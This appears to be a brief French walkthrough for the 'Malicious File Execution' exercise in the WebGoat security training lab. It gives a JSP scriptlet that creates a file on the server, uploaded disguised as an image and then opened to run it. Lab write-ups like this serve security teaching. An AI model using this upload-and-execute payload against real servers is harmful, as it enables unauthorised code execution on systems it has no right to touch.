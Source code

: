 ### Malicious File Execution
Inserer une image lambda et faire start Upload
dans un fichier texte, inscrire 
`<html> <% java.io.File file = new java.io.File("/.extract/webapps/WebGoat/mfe_target/guest21.txt"); file.createNewFile(); %> <html>`
et l'enregistrer au format jsp
l'inserer dans le site web
"l'image" qui sera affiché, l'ouvrir dans un nouvel onglet
rafraichir la page principale
